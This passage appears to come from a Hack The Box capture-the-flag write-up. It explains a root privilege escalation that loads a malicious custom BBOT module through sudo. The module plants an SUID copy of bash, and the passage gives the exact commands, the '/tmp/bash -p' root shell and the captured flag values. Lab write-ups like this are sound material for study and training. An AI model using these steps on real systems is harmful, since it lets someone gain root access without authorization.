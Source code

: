 ![[Pasted image 20250313165653.png]]
### **1. How It’s Supposed to Work**

#### **Step 1-3: Prepare Malicious BBOT Module**

- **`/tmp/myconf.yml`**: Directs BBOT to load modules from `/tmp/modules`.
    
- **`/tmp/modules/whois2.py`**: Defines a custom BBOT module with a `setup()` method that:
    
    - Copies `/bin/bash` to `/tmp/bash`.
        
    - Sets the SUID bit (`chmod u+s`) on `/tmp/bash`, which would allow anyone executing `/tmp/bash` to run it as the file owner (`root`, since BBOT is run with `sudo`).
        

#### **Step 4: Execute BBOT with the Malicious Module**

- `sudo /usr/local/bin/bbot -p /tmp/myconf.yml -m whois2` runs BBOT as `root`, loading the malicious module.
    
- The `setup()` method in `whois2.py` should execute, creating the SUID `/tmp/bash`.
    

#### **Step 5: Spawn Root Shell**

- If successful, `/tmp/bash -p` would spawn a root shell (`-p` preserves privileges).


We got our root shell, let's read flags:

```
bash-5.2# cat /home/graphasm/user.txt
02decd951030c494eb4985cf0aa7e7f1
```

```
bash-5.2# cat /root/root.txt
a20b1c69392473307deb62309474c70c
```


Just like that, machine is done.

![[Pasted image 20250313165846.png]]

https://www.hackthebox.com/achievement/machine/1872557/650

